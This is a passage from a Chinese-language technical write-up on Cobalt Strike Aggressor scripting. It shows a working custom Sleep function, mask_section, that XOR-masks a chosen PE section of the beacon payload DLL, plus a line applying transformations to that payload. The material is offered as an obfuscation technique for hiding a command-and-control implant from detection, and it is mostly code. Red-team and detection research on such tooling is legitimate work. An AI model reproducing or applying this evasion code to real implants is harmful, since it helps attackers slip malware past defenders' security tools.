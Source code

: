 ```perl
# Apply the transformations to the beacon payload.
$temp_dll = setup_transformations($temp_dll, $arch);
```



## 混淆处理

### 1.异或遮掩

使用如下自定义函数`mask_section`可以对指定SECTION部分的内容进行异或遮掩。除此之外，Aggressor还提供了一个内置函数[pe_mask_section](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm?__hstc=173638140.c4afe537898dbcde90f8aa411da93a42.1696081315727.1698492741767.1698545566123.16&__hssc=173638140.1.1698545566123&__hsfp=461134508&_gl=1*1cy19b6*_ga*MTczMDkwNTU2Ny4xNjk2MDgxMzA4*_ga_HNS2ZVG55R*MTY5ODU0NTU2MS4zMC4wLjE2OTg1NDU1NzAuNTEuMC4w#pe_mask_section)函数用于遮掩指定SECTION部分

```perl
sub mask_section {
    local('$key_string $key_length $masked_section $input_dll $section_start_address $section_size $section_name @key_bytes @masked_bytes %pe_header_map');
    
    # 从函数参数中获取值
    $input_dll = $1;  # 输入的DLL文件
    %pe_header_map = $2;  # PE头信息的映射
    $key_string = $3;  # 用于掩码处理的密钥字符串
    $key_length = strlen($key_string);  # 密钥字符串的长度
    $section_name = $4;  # 需要被掩码处理的区段的名称

    # 将密钥字符串拆分成单个字符，并将每个字符转换为其ASCII值
    @key_bytes = map({return asc($1);}, split('', $key_string));

    # 从PE头信息的映射中获取区段的起始地址和大小
    $section_start_address = %pe_header_map[$section_name.".PointerToRawData.<value>"];
    $section_size = %pe_header_map[$section_name.".SizeOfRawData.<value>"];

    # 初始化一个空的掩码字节数组和一个计数变量
    @masked_bytes = @();
    $count = 0;
    
    # 遍历指定区段的每个字节
    for($i = $section_start_address; $i < $section_start_address + $section_size; $i++) {
        # 计算当前字节的索引与密钥长度的模值
        $modulus = $count % $key_length;
        # 使用异或（XOR）操作对原始字节和相应的密钥字节进行掩码处理
        push(@masked_bytes, chr(byteAt($input_dll, $i) ^ @key_bytes[$modulus]));
        # 递增计数变量
        $count++;
    }
    # 将掩码字节数组中的所有字节合并成一个字符串
    $masked_section = join('', @masked_bytes);
    # 将原始DLL文件中的指定区段替换为掩码处理后的区段，并返回处理后的DLL文件
    return replaceAt($input_dll, $masked_section, $section_start_address);
}
```
